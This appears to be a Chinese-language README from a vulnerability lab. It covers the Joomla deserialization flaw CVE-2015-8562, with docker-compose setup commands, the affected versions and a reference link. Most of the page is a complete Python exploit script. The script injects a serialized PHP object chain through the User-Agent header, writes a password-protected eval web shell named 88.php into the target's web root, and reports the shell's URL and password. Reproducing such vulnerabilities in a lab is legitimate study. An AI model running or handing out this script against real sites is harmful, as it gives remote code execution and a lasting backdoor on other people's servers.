

## 环境构建
```
docker-compose build 
docker-compose up -d
```

## 漏洞介绍
joomla的反序列漏洞，该漏洞影响的版本特别多（从1.5版本到3.4版本），漏洞编号CVE-2015-8562

## 影响版本
影响版本

Joomla 1.5.x, 2.x, and 3.x before 3.4.6
PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

getshell payload

```
#coding=utf-8


import requests
import re
import sys
def get_url(url, user_agent):

    headers = {
    'User-Agent': user_agent
    }
    cookies = requests.get(url,headers=headers).cookies
    for _ in range(3):
        response = requests.get(url, headers=headers,cookies=cookies)
    return response.content

def php_str_noquotes(data):
    "Convert string to chr(xx).chr(xx) for use in php"
    encoded = ""
    for char in data:
        encoded += "chr({0}).".format(ord(char))

    return encoded[:-1]


def generate_payload(php_payload):

    php_payload = "eval({0})".format(php_str_noquotes(php_payload))

    terminate = '\xf0\xfd\xfd\xfd';
    exploit_template = r'''}__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";'''
    injected_payload = "{};JFactory::getConfig();exit".format(php_payload)
    exploit_template += r'''s:{0}:"{1}"'''.format(str(len(injected_payload)), injected_payload)
    exploit_template += r''';s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}''' + terminate

    return exploit_template

def check(url):
    response = requests.get(url)
    return response.content


turl = sys.argv[1]
syscmd = "file_put_contents(dirname($_SERVER['SCRIPT_FILENAME']).'/88.php',base64_decode('dnZ2PD9waHAgZXZhbCgkX1BPU1Rbenp6XSk7Pz4='));"
pl = generate_payload(syscmd)
get_url(turl, pl)
url = turl+'88.php'
if 'vvv' in check(url):
    print u"成功shell为"+turl+u"88.php，密码为zzz"
else:
    print u"失败！漏洞已修补或版本不同！"

```

## 漏洞连接
[链接一](https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html)

